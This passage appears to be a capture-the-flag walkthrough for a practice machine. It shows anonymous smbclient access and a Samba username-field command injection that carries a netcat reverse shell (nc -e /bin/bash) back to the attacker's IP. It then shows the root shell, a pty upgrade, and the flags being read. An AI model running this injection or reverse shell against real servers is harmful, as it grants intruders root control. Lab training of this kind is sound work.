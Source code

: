 ```
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3bb48c07-e037-481d-b497-24043512c50c)
<br>
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0b37ab1a-b932-4e98-b239-62c50cf1977c)

+ Change the ip to the tunnel ip address.
```
└─$ smbclient //10.10.10.3/tmp -N
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ?
?              allinfo        altname        archive        backup         
blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             
l              mask           md             mget           mkdir          
more           mput           newer          notify         open           
posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir    
posix_unlink   posix_whoami   print          prompt         put            
pwd            q              queue          quit           readlink       
rd             recurse        reget          rename         reput          
rm             rmdir          showacls       setea          setmode        
scopy          stat           symlink        tar            tarmode        
timeout        translate      unlock         volume         vuid           
wdel           logon          listconnect    showconnect    tcon           
tdis           tid            utimes         logoff         ..             
!              
smb: \> logon "./=`nohup nc -e /bin/bash 10.10.10.3 4444`"
Password: 
session setup failed: NT_STATUS_LOGON_FAILURE
smb: \> logon "./=`nohup nc -e /bin/bash 10.10.XX.XX 4444`"
Password: 
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/48192019-6577-4ba7-b80c-3ab5663776fd)

<br>
<br>

+ Got the shell as root: `nc -lnvp 4444`
+ Stable shell: `python -c 'import pty; pty.spawn("/bin/bash")'`

<br>

```
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.3] 57528
id 
uid=0(root) gid=0(root)
whoami
root
uname -a
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
python -c 'import pty; pty.spawn("/bin/bash")'
root@lame:/# cat /home/makis/user.txt
cat /home/makis/user.txt
User-Flag
root@lame:/# cat /root/root.txt
cat /root/root.txt
Root-Flag
root@lame:/# 

```